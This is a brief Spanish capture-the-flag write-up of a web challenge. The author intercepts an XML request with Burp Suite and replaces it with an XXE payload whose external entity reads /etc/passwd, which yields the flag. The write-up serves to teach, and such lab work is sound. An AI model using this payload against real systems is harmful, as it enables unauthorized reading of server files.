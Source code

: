 El texto del reto nos dice lo siguiente: "The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?", así que el objetivo será leer ese fichero.

Como no encuentro nada en la página en sí misma, busco con burpsuite si encuentro algo extraño al lanzar peticiones. Veo que cuando lo damos a "details" aparece lo siguiente:

![](imágenes/Pasted%20image%2020240913003351.png)

Buscando si hay algún tipo de vulnerabilidad sobre ello, encuentro esto https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files. Envío el mensaje interceptado al "Repeater" y sustituyo:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
<ID>
2
</ID>
</data>
```

Por:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
<ID>
&xxe;
</ID>
</data>
```

Consiguiendo el flag:
![](imágenes/Pasted%20image%2020240913005246.png)

